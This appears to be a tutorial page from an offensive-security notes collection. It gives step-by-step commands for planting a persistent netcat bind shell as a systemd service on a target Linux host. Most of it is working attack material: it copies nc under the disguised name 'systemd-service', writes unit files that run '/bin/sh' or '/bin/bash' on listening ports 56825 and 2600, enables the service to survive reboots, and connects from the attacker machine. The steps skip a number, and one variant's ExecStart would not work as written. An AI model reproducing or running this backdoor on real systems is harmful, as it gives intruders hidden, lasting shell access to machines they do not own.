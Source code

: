 # Systemd netcat bind shell

involves creating a custom service that will also persist across reboots, but this one will be with Systemd, which has quickly become part of most Linux distributions as a replacement for the UNIX System V init system used to launch services and processes and system startup.

With a bind shell, the attacker directly connects to the bind port and is greeted with a shell.

So, in regards to the difference between the two, we’re initiating a connection to the target for a shell, rather than the target connecting back to our attacker system, as was with the xinetd backdoor.

#### The steps to create a Systemd Netcat Bind Shell are as follows:

Step 1. On the target system, we’re again going to copy the /bin/nc executable, but this time to the /lib/systemd directory, and we’ll call it “systemd-service”:

```text
cp /bin/nc /lib/systemd/systemd-service
```

Step 2. Still, on the target, we’re going to create a file called /lib/systemd/system/systemd.service with the following contents:

```text
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```

or this one with freeBSD version of netcat:

```text
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = mkfifo foo && nc -lk 2600 0<foo | /bin/bash 1>foo
[Install]
WantedBy = multi-user.target
```

The above systemd service configuration file will create bind shell on port 56825 TCP.

Step 3. Enable our new Systemd Netcat Bind Shell service, and start our Systemd Netcat Bind Shell Service:

```text
systemctl enable systemd.service
systemctl start systemd.service
```

Confirm that our port for our custom service is listening on the target:

```text
netstat –auntp |grep 56825
```

Step 5. From our attacker machine, we should now be able to connect to port 56825 using netcat and get a shell:

```text
nc <target_IP> 56825
```

This service will persist on reboots and will be listed as “systemd-service” if listing processes.

